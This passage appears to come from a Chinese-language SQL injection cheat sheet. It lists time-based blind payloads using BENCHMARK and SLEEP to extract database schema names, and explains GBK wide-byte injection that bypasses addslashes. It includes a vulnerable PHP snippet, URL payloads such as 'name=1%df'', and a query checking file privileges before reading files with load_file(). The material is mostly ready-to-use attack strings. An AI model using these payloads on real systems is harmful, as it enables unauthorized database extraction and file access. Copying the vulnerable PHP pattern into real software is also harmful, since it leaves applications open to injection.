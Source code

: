#### payload
```

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)

...
```
## 宽字节注入
### 原理
有如下php代码：
```php
...
mysql_query("SET NAMES 'gbk'");
....
$name = isset($_GET['name']) ? addslashes($_GET['name']) : 1;
$sql = "SELECT * FROM test WHERE names='{$name}'";
```
addslashes()会在单引号或双引号前加上一个`\`。当mysql使用GBK字符集时，会把两个字符当作一个汉字，如%df%5c为運字。我们输入`name=root%df%27`，%在服务器端会出现如下转换：`root%df%27` -> `root%df%5c%27` -> `root運'`。

更多内容可见：[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)
### payload
#### 吃掉`\`
```
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
...
```
在被addslashes后，出现%XX%5c，当前一个字符的ascii码值大于128时，会被认为是一个宽字符，即使它不是个汉字。所以不是仅仅%df可以吃掉'\\'。

#### 利用`\`
```
index.php?name=%**%5c%5c%27
```

## 二次注入

## 文件读写
利用sql注入可以导入导出文件，获取文件内容，或向文件写入内容。
查询用户读写权限：
```
SELECT file_priv FROM mysql.user WHERE user = 'username';
```
### load_file()读取
#### 条件
+ 需要有读取文件的权限
+ 需要知道文件的绝对物理路径。
+ 要读取的文件大小必须小于 max_allowed_packet
